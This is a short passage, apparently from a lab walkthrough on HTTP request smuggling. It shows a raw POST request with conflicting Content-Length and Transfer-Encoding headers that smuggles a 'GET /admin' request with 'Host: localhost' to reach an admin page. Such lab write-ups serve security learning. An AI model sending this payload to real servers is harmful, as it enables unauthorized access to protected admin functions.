 ![img](media/7756bb89c59c273fd400b4c8ad532c78.png)

Then we can adapt the payload to access /admin using the header “Host:
localhost” as previously:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

3a
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/d2e4bd0d3c69b746d3290f61369d003a.png)
